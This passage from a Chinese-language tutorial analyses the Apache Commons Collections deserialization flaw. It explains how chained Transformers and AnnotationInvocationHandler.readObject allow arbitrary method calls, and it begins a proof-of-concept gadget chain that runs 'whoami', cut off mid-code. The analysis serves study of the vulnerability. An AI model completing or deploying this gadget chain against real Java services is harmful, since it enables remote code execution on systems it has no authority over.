 ```Java
    /** 这里iTransformers的声明如下：
    *   The transformers to call in turn
    *   private final Transformer[] iTransformers;
    */
    iTransformers = transformers;
}
```
在构造方法中，只是将传入的Transformer数组进行了保存，方便后面的使用。接下来看下在`transform`方法中的具体使用。

>**transform方法：**
```Java
/**
 * Transforms the input to result via each decorated transformer
 * 
 * @param object  the input object passed to the first transformer
 * @return the transformed result
 */
public Object transform(Object object) {
    // 通过循环挨个调用传入的Transformer
    for (int i = 0; i < iTransformers.length; i++) {
        // 这里将上一个Transformer的结果传给了下一个
        object = iTransformers[i].transform(object);
    }
    return object;
}
```
这里就能解释`InvokerTransformer`的Class是从哪里来的了，因为在数组中前一个是`ConstantTransformer`他的结果是一个Class。

到这里基本上`Transformer`已经分析得差不多了，总结下：

**Transformer用于给commons中的集合架构做数据转换，各种Transformer结合起来可以做成一个转换链。**

### 2x03 原理小结
在Collections的各个类中，当发生了数据改变的时候，就会调用Transformer对象的transform方法，然后例如InvokerTransformer我们是可以控制，**指定的类**的**指定的方法**的**指定的参数**。并且整个过程并没有任何的恶意代码校验，这样，我们就可以构造恶意攻击链达到攻击的目的。

## 3x00 实例
### 3x01 进一步的设计攻击链
现在的问题是：**必须要调用集合架构中的key、value的改变的方法才会调用Transformer的transform方法**。这样攻击是很被动的，所以这里如果能找到一个**能够在序列化的时候，也就是调用readObject的时候就对key/value进行操作的类**，这样我们的攻击会更直接。
> 因为apach.commons.Collections已经在出问题之后做了相关的校验，所以这里找的是网上的老版本的代码截图。

经过网上一群大佬的研究，找到了这样的一个类`AnnotationInvocationHandler`，这个类就是符合刚才所说的那个要求。其`readObject`方法截图如图。

![](https://note.youdao.com/yws/public/resource/496394bf8696a286a4c1b9dc0fdea4d3/xmlnote/48E3BCC981424FB7B42A5B9496456681/2221)
可以看见在其中对`memberValue`做了操作，所以这里会直接出发Transformer的transform方法。

根据这个写出Poc:

```Java
public class MyPoc {
    public static void main(String[] args) {
        String execArgs = "whoami";
        ChainedTransformer chainedTransformer = getChainedTransformer(execArgs);
        // 创建一个内部Map，存放数据的那个
        HashMap<String, String> innerMap = new HashMap<String, String>();
        innerMap.put("fool", "fool");
        Map outterMap = TransformedMap.decorate(innerMap, chainedTransformer, chainedTransformer);

        try {
            Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
            constructor.setAccessible(true);
            Object instance = constructor.newInstance(Target.class, outterMap);
```